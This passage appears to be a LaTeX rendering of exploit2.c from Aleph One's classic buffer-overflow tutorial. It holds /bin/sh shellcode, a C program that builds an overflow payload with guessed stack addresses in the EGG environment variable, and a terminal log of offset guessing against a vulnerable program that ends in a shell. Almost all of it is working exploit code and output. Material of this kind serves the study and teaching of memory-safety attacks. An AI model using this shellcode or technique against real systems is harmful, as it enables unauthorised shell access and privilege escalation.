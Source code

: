 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[caption=exploit2.c,frame=single,frameround=tttt,breaklines=true]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";
unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);
  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr += 4;
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}


Now we can try to guess what the buffer and offset should be:

\begin{verbatim}
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4

[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit

[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4

[aleph1]$ ./vulnerable $EGG
Illegal instruction

[aleph1]$ exit

[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c

[aleph1]$ ./vulnerable $EGG
Segmentation fault

[aleph1]$ exit

[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8

[aleph1]$ ./vulnerable $EGG
Segmentation fault

[aleph1]$ exit
.
.
.

[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794

[aleph1]$ ./vulnerable $EGG
$
\end{verbatim}
\end{document}
